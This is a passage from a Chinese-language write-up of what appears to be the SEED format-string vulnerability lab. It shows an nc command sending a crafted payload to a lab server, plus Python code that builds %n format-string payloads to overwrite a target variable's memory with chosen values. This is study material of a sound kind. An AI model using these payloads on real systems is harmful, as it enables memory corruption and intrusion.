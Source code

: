 ```terminal
python3 build_string.py 
cat badfile | nc 10.9.0.5 9090
```

成功输出secret message：

![image-20220421201731894](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317712.png)



## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

要求只要修改target变量的值就可以了，所以可以用`%n`占位符，作用是计算到目前为止输出的字节数，写入对应的参数指定的内存地址。

所以用`target`的地址`0x080e5068`填充在buffer的起始地址，并且在第64个偏移处填`%n`

```python
# This line shows how to store a 4-byte integer at offset 0

number  = 0x080e5068	# target的地址

content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4

content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"

s = "%.8x"*63 + "%n"	# s = "%.8x"*63 +"%64$n" 也可以
```

测试成功，`target`的值被改成了0x200，因为在`%n`之前打印了4位宽target变量地址+4位宽的abcd+8位宽的`%.8x`*63，即$0x4+0x4+0x8\times63=0x200$。

![image-20220421202710777](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317394.png)



### Task 3.B: Change the value to 0x5000

按照相同的思路，由于第64个偏移处必须填`%n`，只能想办法扩展前面部分的宽度，所以payload构造为：$address+abcd+\%.8x\times62+\%.19976x$

```python
# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"

s = "%.8x"*62 + "%.19976x" + "%n"
```

成功将值改成0x5000：

![image-20220421205113015](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012317687.png)


